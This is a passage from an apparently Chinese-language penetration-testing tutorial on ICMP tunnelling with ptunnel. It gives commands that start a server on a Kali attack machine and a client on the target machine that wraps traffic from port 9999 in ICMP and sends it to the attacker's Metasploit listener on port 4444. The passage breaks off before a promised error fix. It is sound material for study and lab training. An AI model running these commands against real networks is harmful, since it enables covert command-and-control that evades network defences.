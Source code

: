 ![image-20231204182250798](./img/Tunnel/image-20231204182250798.png)

攻击机开启 ptunnel 的 server kali 自带的，所以直接执行就可以

```
ptunnel
```

![image-20231204180659967](./img/Tunnel/image-20231204180659967.png)

**2）靶机操作：**

靶机端执行 client

```
./ptunnel -p 100.1.1.169 -lp 9999 -da 100.1.1.169 -dp 4444

# -p   server端的IP
# -lp  本地监听的端口（只要是这个端口接到的tcp流量，全部封装成icmp,发送到server端）
# -da -dp 告诉server端，解析后的流量转发到哪个ip和端口，这里填的是msf监听的IP和端口
```

运行可能报错

![image-20231204180954893](./img/Tunnel/image-20231204180954893.png)解决办法：
